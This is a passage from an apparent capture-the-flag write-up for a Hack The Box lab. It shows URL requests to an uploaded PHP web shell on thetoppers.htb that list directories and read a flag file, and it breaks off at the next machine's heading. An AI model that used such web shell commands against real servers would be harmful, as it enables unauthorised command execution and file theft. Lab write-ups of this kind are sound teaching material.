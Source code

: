 Next we go to the website with URL parameters:
```bash
http://thetoppers.htb/shell.php?cmd=ls
images index.php shell.php
http://thetoppers.htb/shell.php?cmd=ls ..
flag.txt html
http://thetoppers.htb/shell.php?cmd=cat ../flag.txt
```

### Ignition <img src="fig/fa-linux.svg" width="25" height="25">
